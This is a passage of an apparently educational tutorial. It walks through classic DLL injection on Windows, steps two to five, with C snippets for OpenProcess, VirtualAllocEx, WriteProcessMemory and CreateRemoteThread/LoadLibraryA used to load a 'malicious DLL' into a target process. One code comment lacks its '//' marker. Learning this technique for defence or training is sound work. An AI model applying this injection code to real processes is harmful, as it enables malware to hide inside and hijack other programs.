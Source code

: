 
At step two, after the PID has been enumerated, we need to open the process. This can be accomplished from a variety of Windows API calls: GetModuleHandle, GetProcAddress, or OpenProcess.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```

At step three, memory must be allocated for the provided malicious DLL to reside. As with most injectors, this can be accomplished using VirtualAllocEx.

```
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step four, we need to write the malicious DLL to the allocated memory location. We can use WriteProcessMemory to write to the allocated region.

```
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```

At step five, our malicious DLL is written to memory and all we need to do is load and execute it. To load the DLL we need to use LoadLibrary; imported from kernel32. Once loaded, CreateRemoteThread can be used to execute memory using LoadLibrary as the starting function.

```

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);

```

